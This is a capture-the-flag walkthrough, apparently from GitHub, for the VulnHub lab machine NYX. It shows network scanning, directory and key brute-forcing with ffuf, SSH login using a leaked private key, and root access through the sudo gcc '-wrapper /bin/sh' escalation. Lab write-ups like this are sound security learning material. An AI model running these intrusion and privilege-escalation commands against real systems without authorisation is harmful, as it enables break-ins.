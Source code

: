 # NYXvm

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:98:a9:81	VMware, Inc.
192.168.127.254	00:50:56:f6:01:2e	VMware, Inc.
```

The ip address is `192.168.127.133`, let's enumerate it

### 2.Enumeration

```bash
root@kali: nmap -p- -sT -sV -v -oN nmap.out 192.168.127.133
Nmap scan report for 192.168.127.133
Host is up (0.00091s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 00:0C:29:98:A9:81 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

on the main http page you can find nothing, i used ffuf for directory bruteforcing and file enumeration :

```bash
ffuf -w /root/wordlist/raft-medium-words.txt -u http://192.168.127.133/FUZZ -e .php,.zip,.txt,.rar,.gz,.bak,.backup,.old -fc 403
```

and i found a file called `key.php` :


![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/7a3152ed-373c-4fb6-b81b-a5a566011137)

for finding the key, i used several injection methods, sqli, ci and different payloads, but finally i captured one of the requests in burp and used the same headers in ffuf to send the POST request :

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.133/key.php -X POST -d key=FUZZ -x http://127.0.0.1:8080 -H 'Content-Type: application/x-www-form-urlencoded'

1165685715469           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5ms]
```

open it in burp :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/fa03f419-8fc1-43b3-931a-602649e563f7)

and it gives you a private ssh key for user `mpampis`


### 3.Gaining Shell

Connect to system with this ssh key :

```bash
root@kali: chmod 600 private.key
root@kali: ssh -i private.key mpampis@192.168.127.133
Linux nyx 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
███▄▄▄▄   ▄██   ▄   ▀████    ▐████▀ 
███▀▀▀██▄ ███   ██▄   ███▌   ████▀  
███   ███ ███▄▄▄███    ███  ▐███    
███   ███ ▀▀▀▀▀▀███    ▀███▄███▀    
███   ███ ▄██   ███    ████▀██▄     
███   ███ ███   ███   ▐███  ▀███    
███   ███ ███   ███  ▄███     ███▄  
 ▀█   █▀   ▀█████▀  ████       ███▄ 
Last login: Sat Apr 20 04:31:42 2024 from 192.168.127.128
mpampis@nyx:~$ 
```

### 4.Privilege Escalation

Check for sudo permissions :

```bash
mpampis@nyx:~$ sudo -l
Matching Defaults entries for mpampis on nyx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mpampis may run the following commands on nyx:
    (root) NOPASSWD: /usr/bin/gcc
```

and use `gcc` for getting root

```bash
mpampis@nyx:~$ sudo /usr/bin/gcc -wrapper /bin/sh,-s .
# id
uid=0(root) gid=0(root) groups=0(root)

# cd /root

# ls
root.txt
```

This is how you can get root on this machine :)

